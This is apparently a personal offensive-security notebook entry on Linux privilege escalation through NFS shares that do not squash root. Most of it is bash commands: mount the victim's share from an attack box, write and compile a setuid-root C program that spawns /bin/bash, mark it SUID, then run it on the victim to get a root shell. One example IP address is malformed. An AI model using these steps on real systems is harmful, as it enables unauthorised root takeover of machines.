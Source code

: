 -- -
General workflow is to find a directory you can mount that does not squash root. Mount it on your attack box, make a malicious executable as root, give malware SUID bit, then run said executable from the victim to get a shell. 
[[Dark Arts/Privesc/Linux/Enumeration/NFS Root Squashing|Enum]]

#### Exploit
###### On Attackbox
```bash
# make a mount point
# can make it wherever, usually I do it in /mnt 
mkdir /tmp/mountme

# mount remote share
mount -o rw,vers=1 <target ip>:<mount dir> /tmp/mountme
mount -o rw,vers=2 192.168.67:/tmp /tmp/mountme

# make malicious c file on remote mount
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/x.c

# compile malware
# ignore warnings like usual
gcc /tmp/mountme/x.c -o /tmp/mountme/x
chmod +s /tmp/mountme/x
```
###### On Victim
```bash
# now just go to the file location and run
cd /tmp 
./x
# should spawn a root shell
```